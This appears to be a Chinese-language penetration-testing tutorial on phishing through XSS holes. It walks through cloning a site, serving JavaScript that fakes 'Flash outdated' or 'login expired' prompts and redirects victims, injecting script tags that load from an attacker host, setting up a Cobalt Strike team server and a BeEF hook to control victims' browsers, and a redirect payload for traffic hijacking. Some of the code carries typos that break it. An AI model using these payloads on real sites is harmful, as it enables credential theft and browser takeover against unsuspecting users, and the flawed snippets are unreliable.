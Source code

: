 ## 通过XSS钓鱼

### 1. 网络钓鱼

钓鱼网站是指欺骗用户的虚假网站。“钓鱼网站”的页面与真实网站界面基本一致，欺骗消费者或者窃取访问者提交的账号和密码信息。钓鱼网站一般只有一个或几个页面，和真实网站差别细微。钓鱼网站是互联网中最常碰到的一种诈骗方式，通常伪装成银行及电子商务、窃取用户提交的银行账号、密码等私密信息的网站。

网络钓鱼是犯罪分子最容易实施的网络攻击方式之一，也是最容易上当的方式之一。它还可以为黑客提供所需的一切，以洗劫其目标的个人和工作帐户。

网络钓鱼也是网络攻击者传播恶意软件的一种流行方法，通过鼓励受害者下载一个文件或访问一个链接，秘密安装恶意有效载荷，从而进行传播木马恶意软件、勒索软件或各种破坏性和破坏性攻击。

#### (1）Flash钓鱼

`Flash Player` 是一种广泛使用的、专有的多媒体程序播放器。 `F1ash player` 使用矢量图形的技术来最小化文件的大小以及创造节省网络带宽和下载时间的文件。因此 F1ash 成为嵌入网页中的小游戏、动画以及图形用户界面常用的格式。

**A. 配置钓鱼页面**

1. 访问真实的 `fiesh` 官网页面，然后点击鼠标右键选择査看网页源代码，并将所有的代码复制下来保存到 `index.html` 里。

2. 检查并修改源代码里的链接修改为官网里的链接。

3. 启动 `http` 服务以供受害者能访问到 `index.html` 和 `flash.js` 。

   ```
   python -m http.server --bind 0.0.0.0 1234
   ```

4. 新建 `flash.js` 文件，内容为（其中的 `window.location.href` 的值修改为 `index.html` 的URL地址）：

   ```
   window.alert = function(name){
   var iframe= document.createElement("IFRAME");
   iframe.style.display="none";
   iframe.setAttribute("src",'date:text/plain');
   document.documentElement.appendChild(iframe);
   window.frames [0].window.alert(name);
   iframe.parentNode.removeChild(iframe);
   }
   alert("您的FLASH版本过低，尝试升级后访问该页面!");
   window.location.href "http://192.168.19.128:1234/index.html"
   ```

**B. 钓鱼**

1. 攻击者将 `<script src="http://192.168.19.123:1234/flash.js"></script>` 插入到存在XSS漏洞的地方。
2. 受害者浏览存在XSS漏洞的页面，浏览器就会弹出FLASH版本过低的提示。

#### (2）Cobalt Strike钓鱼

`Cobalt Strike` （简称CS）是一款团队作战渗透测试神器，是一种可以用来横向移动，数据窃取，鱼叉式钓鱼的后渗透工具。`Cobalt Strike` 使用C/S架构，客户端连接到服务端，服务端即为团队服务器。

`Cobalt Strike` 使用 `Java` 开发，因此启动依赖于 `jdk` 环境。服务端只能部署在Linux上，客户端可以在任何配置了 `jdk` 的系统上运行。

**A. 配置Cobalt Strike服务端** 

1. 赋予服务端文件的执行权限

   ```
   chmod +x teamserver
   ```
2. 运行服务端文件

   ```
   sudo ./teamserver kaliIP password
   ```

**B. 客户端连接服务器** 

1. 赋予客户端文件的执行权限

   ```
   chmod +x cobaltstrike
   ```

2. 运行客户端脚本

   ```
   ./cobaltstrike
   ```

3. 连接进入

**C. 制作钓鱼网站**

1. 克隆网站

2. 新建 `clone.js` ，内容为（其中的 `window.location.href` 的值修改为克隆出来的网站地址）：

   ```
   window.alert = function(name){
   var iframe= document.createElement("IFRAME");
   iframe.style.display="none";
   iframe.setAttribute("src",'date:text/plain');
   document.documentElement.appendChild(iframe);
   window.frames [0].window.alert(name);
   iframe.parentNode.removeChild(iframe);
   }
   alert("登录过期，请重新登录!");
   window.location.href "http://192.168.19.128/"
   ```

3. 攻击者启动 `http` 服务使得受害者浏览器能访问到 `clone.js` 

   ```
   python -m http.server --bind 0.0.0.0 1234
   ```
   

**D. 钓鱼** 

1. 攻击者将 `<script src="http://192.168.19.128:1234/clone.js"></script>` 插入到存在XSS漏洞的页面。
2. 受害者浏览插入了 `JavaScript` 代码的页面，就会弹出登录过期的提示。

#### (3）BeEF钓鱼

`BeEF`  (The Browser Exploitation framework)是浏览器攻击框架的简称，是一款专注于浏览器端的渗透测试工具。
`BeEF`  提供一个 Web 界面来进行操作，只要访问了嵌 `hook.js`  的页面，抑或执行了 `hook.js ` 文件的浏览器，就会不断地以 `GET` 的方式将其自身的相关信息传到 `BeEF` 的服务端。

**A. 安装BeEF**

1. 使用docker进行安装，拉取镜像

   ```
   docker pull janes/beef
   ```

2. 利用镜像启动一个容器

   ```
   docker run -dp 3000:3000 janes/beef
   ```

3. 测试是否启动成功，浏览器访问 `http://your-ip:3000/ui/panel` 

4. 登录，账户密码皆为 `beef` 

**B. 钓鱼**

1. 攻击者将 `<script src="http://192.168.19.128:3000/hook.js"></script>` 插入到存在XSS漏洞的页面。
2. 受害者浏览插入了 `JavaScript` 代码的页面。
3. 在服务端可以完成控制。

### 2. 流量劫持

流量劫持是指利用一些软件或木马修改浏览器不停的弹出新的窗口强制性的让用户访问指定的网站。

Payload：

```
<script>window.location.href="http://www.baidu.com"</script>
```